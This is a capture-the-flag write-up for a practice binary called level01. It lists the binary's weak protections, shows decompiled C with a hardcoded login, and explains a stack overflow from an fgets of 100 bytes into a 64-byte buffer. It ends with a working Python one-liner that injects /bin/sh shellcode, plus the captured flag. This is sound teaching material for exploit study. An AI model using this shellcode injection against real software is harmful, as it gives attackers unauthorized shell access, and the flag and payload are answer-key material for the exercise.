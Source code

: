 # level01
## Protections

|Protection|Status|Explanation|
|----------|------|-----------|
|**RELRO**|Partial RELRO|Global Offset Table (GOT) is not fully protected. Vulnerable to GOT overwrite attacks.|
|**Stack Canary**|No canary found|Stack overflows are not detected. Return address can be overwritten freely.|
|**NX**|NX disabled|Stack is executable. Classic shellcode injection attacks are possible.|
|**PIE**|No PIE|Binary is loaded at a fixed address in memory. Easier to perform ROP as addresses are predictable.|
|**RPATH/RUNPATH**|None|No custom dynamic linker paths. No impact on typical exploitation.|

## Decompiled code
```C
// The decompiled code looked way worse than this so we humanized it.
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name(void) {
    const char *correct_username = "dat_wil";
    if (strncmp(a_user_name, correct_username, strlen(correct_username)) == 0) {
        return 0;
    } else {
        return 1;
    }
}

int verify_user_pass(const char *input_password) {
    const char *correct_password = "admin";
    if (strncmp(input_password, correct_password, strlen(correct_password)) == 0) {
        return 0;
    } else {
        return 1;
    }
}

int main(void) {
    char password_input[64] = {0};
    int result;

    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    a_user_name[strcspn(a_user_name, "\n")] = 0;

    result = verify_user_name();
    if (result == 0) {
        printf("Enter Password: ");
        fgets(password_input, 100, stdin);
        password_input[strcspn(password_input, "\n")] = 0;

        result = verify_user_pass(password_input);
        if (result == 0) {
            puts("Access granted.\n");
            return 0;
        } else {
            puts("nope, incorrect password...\n");
            return 1;
        }
    } else {
        puts("nope, incorrect username...\n");
        return 1;
    }
}
```

## Exploit
In the binary, we have 3 functions :
- `verify_user_name()`
- `verify_user_pass()`
- `main()`  
  
In the `main` function, we see that the `fgets` doesn't present a vulnerability so we need to go further in the program to find something. We input the correct username `dat_wil`.  
Then the second `fgets` is limited for a 100 byte string. However, our buffer `password_input` is 64 bytes long. We have a vulnerability here.  
Using a buffer overflow pattern generator we find that the offset is 80. We can start working on a payload now.  
Since NX is disabled, we aim to do a classic shell-code injection. We have a lot of space in the username variable so we will store the shell code after the username and then overflow the EIP to the address of the starting byte of the shell code with an overflow in the userpass variable.  
![level01](./level01.png)

### Payload
`(python -c 'print("dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "A" * 80 + "\x47\xa0\x04\x08")'; cat) | ./level01`
## Flag
`PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`